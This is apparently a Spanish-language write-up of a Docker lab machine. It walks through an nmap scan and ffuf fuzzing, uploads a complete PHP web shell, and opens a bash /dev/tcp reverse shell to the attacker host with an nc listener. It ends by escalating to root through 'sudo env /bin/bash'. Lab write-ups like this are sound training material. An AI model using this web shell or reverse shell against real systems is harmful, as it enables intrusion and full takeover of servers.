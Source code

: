 Fecha: 05/09/2024

Comienzo haciendo nmap:
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240905153504.png)
Comienzo inspeccionando la página del puerto 80, sin encontrar nada interesante, así que hago fuzzing: 

```shell
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](Imágenes/Pasted%20image%2020240905153726.png)

Por lo que parece hay un directorio /uploads, así que es posible que se pueda hacer Local File Inclusion. 

Desde /upload.php se pueden subir archivos, subiré una shell de php desde la que poder hacerme una reverse shell: 

![](Imágenes/Pasted%20image%2020240905153824.png)

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Me deja subirlo sin ningún problema, así que accedo a él a través del directorio /uploads:
![](Imágenes/Pasted%20image%2020240905154321.png)

```bash
# En la linea de comandos virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```

Lo primero que haré será tratar la tty: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Veo que puedo ejecutar env como root sin necesidad de usar la contraseña:
![](Imágenes/Pasted%20image%2020240905154430.png)

Miro en https://gtfobins.github.io/gtfobins/env/#sudo y encuentro que ejecutando `sudo env /bin/bash`: 
![](Imágenes/Pasted%20image%2020240905154520.png)